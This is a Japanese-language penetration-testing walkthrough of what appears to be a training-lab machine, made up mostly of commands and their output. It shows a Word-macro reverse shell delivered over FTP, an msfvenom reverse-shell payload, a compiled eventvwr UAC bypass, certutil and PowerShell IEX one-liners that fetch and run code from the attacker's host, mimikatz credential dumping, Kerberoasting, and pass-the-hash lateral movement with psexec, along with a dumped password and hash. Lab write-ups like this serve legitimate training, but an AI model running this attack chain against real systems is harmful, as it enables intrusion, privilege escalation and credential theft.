 ```
nmap -Pn -n -vvv -sV -oA nmap/intial 10.11.1.21
nmap -Pn -n -vvv --script=vuln -oA nmap/vuln 10.11.1.21
```
port80が開いているのでブラウザで見てみる   
```
編集の流れ

すべての文書は、最終投稿前に編集のために提供されなければなりません。編集チームはこのプロセスを主導し、提供された文書を収集します。

文書を提出するには、ポート21のFTPサーバーにユーザー名 "editor"、パスワード "MyEditWork "を使用して接続してください。文書は必ず".doc "または".docx "形式で保存してください。これにより、編集者は迅速に文書を確認し、編集作業を行うことができます。
```

ftpのユーザー名とパスワードが書いてあるのでftp接続をしてみるが特に何もない
.docまたは.docxファイルのみ受け付けるということなのでワードのマクロでリバースシェルを試みる   
トレーニング教材の「13　クライアント側の攻撃」参照  
13.3 Microsoft officeの悪用＞＞13.3.2 Microsoft Wordマクロを使う   
https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58のmkpsrevshell.py でリバースシェルを作る   
出来上がったリバースシェルを教材の中にあるPythonスクリプトで50文字に分割する   
「13.3.1. Microsoft Office のインストール」を参照してWindows 10 学生 VM にインストールする   
「Macos in:」で「Document1(document)」を選択する
マクロを書く場所は現在のProjectに書く（Nomalに書いても起動しない）
「.doc」形式で保存する
ftpでアップロードする
モードをbinaryモードに設定してからアップする
```
ftp 10.11.1.21
Name (10.11.1.21:kali): editor
331 Password required for editor
Password: 
ftp> bin
200 Type set to I
ftp> put Doc1.doc 
local: Doc1.doc remote: Doc1.doc
229 Entering Extended Passive Mode (|||62519|)
150 Opening data channel for file upload to server of "/Doc1.doc"
100% |******************************************************************************************************************************************| 20015      265.10 MiB/s    00:00 ETA
226 Successfully transferred "/Doc1.doc"
20015 bytes sent in 00:00 (40.69 KiB/s)
ftp> 
```
マクロの中に`AutoOpen()`を記述しているの、ftpでアップし、暫くするとリバースシェルが返ってくる    
```
nc -lvnp 443 
listening on [any] 443 ...
connect to [192.168.119.243] from (UNKNOWN) [10.11.1.22] 51313
dir

PS C:\Windows\system32> whoami
svcorp\alice
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
PS C:\Users\Administrator\Desktop> type proof.txt
464a734cfa6ca2188ffaaa902f144bce
```
UACの可能性があるのでレジストリで確認してみる
```
PS C:\> reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    <span style="color:red;">ConsentPromptBehaviorAdmin    REG_DWORD    0x5</span>  
    ConsentPromptBehaviorUser    REG_DWORD    0x3   
    DSCAutomationHostEnabled    REG_DWORD    0x2   
    EnableCursorSuppression    REG_DWORD    0x1   
    EnableInstallerDetection    REG_DWORD    0x1  
    <span style="color:red;">EnableLUA    REG_DWORD    0x1</span>  
    EnableSecureUIAPaths    REG_DWORD    0x1  
    EnableUIADesktopToggle    REG_DWORD    0x0  
    EnableVirtualization    REG_DWORD    0x1  
    <span style="color:red;">PromptOnSecureDesktop    REG_DWORD    0x1</span>  
    ValidateAdminCodeSignatures    REG_DWORD    0x0  
    dontdisplaylastusername    REG_DWORD    0x0  
    legalnoticecaption    REG_SZ       
    legalnoticetext    REG_SZ      
    scforceoption    REG_DWORD    0x0  
    shutdownwithoutlogon    REG_DWORD    0x1  
    undockwithoutlogon    REG_DWORD    0x1  
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\UIPI

上の3つのハイライトされたキーとその値に注目   
EnableLUAは、UACが有効かどうかを示している 。もし0なら、迂回する必要はなく、PsExecでSYSTEMにアクセスできる。   
しかし、それが1であれば、他の2つのキーをチェックする。   
ConsentPromptBehaviorAdminは理論的には6つの値を取ることができる。Windowsの設定でUACスライダーを設定すると、0、2、5のいずれかになる。   
PromptOnSecureDesktopはバイナリで、0か1のどちらか。   
UACが設定されているので権限が制限されている   
https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/ に書かれている方法でUACをbypassする   

リバースシェルを作成
 ```
msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp LHOST=192.168.119.184 LPORT=4444 -f exe -o k_reverse_4444.exe
```
https://github.com/turbo/zero2hero/blob/master/main.c をダウンロードし    
以下の部分を書き換える
```
/*
	GetCurrentDirectory(MAX_PATH, curPath);
	strcat(curPath, "\\foobar.exe");
*/

書き換える

GetCurrentDirectory(MAX_PATH, curPath);
strcat(curPath, "\\k_reverse_4444.exe");
```
ターゲットシステムはx64Windowsなのでkali上にMinGWが必要
```
sudo apt install mingw-w64
```
コンパイル
```
x86_64-w64-mingw32-gcc main.c -o k_eventvwr-bypassuac-64.exe
```
リスナー起動   
kali上にpythonでサーバーを立てておく   
ターゲットマシンでファイルをダウンロードする    
```
PS C:\users\alice\desktop>certutil -urlcache -f http://192.168.119.243:80/k_reverse_4444.exe k_reverse_4444.exe
PS C:\users\alice\desktop>certutil -urlcache -f http://192.168.119.243:80/k_eventvwr-bypassuac-64.exe k_eventvwr-bypassuac-64.exe
PS C:\users\alice\desktop> .\k_eventvwr-bypassuac-64.exe
```
実行するとすぐにリスナーで受信する
```
 nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.119.243] from (UNKNOWN) [10.11.1.22] 51929
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
svcorp\alice
```
権限が増えているのでmimikatzのワンライナーコマンドで情報収集
```
c:\Users\alice\Desktop>mimikatz.exe "privilege::debug" "token:elevate" "sekurlsa::logonpasswords" "lsadump::/inject" "lsadump::sam" "exit"
```
Username : alice   
Password : ThisIsTheUsersPassword01   

Invoke-Kerberoast.ps1でハッシュ取得   
```
>powershell.exe -Nop -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.243/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -Outputformat Hashcat
```
ハッシュからは情報が取れないので.........

10.11.1.24から横展開
```
python3 psexec.py -hashes 0f951bc4fdc5dfcd148161420b9c6207:0f951bc4fdc5dfcd148161420b9c6207 pete@10.11.1.21
C:\Windows\system32> whoami 
nt authority\system
c:\Users\Administrator\Desktop> type proof.txt
6dd8930a9d164b0345a20551e9bad562
```
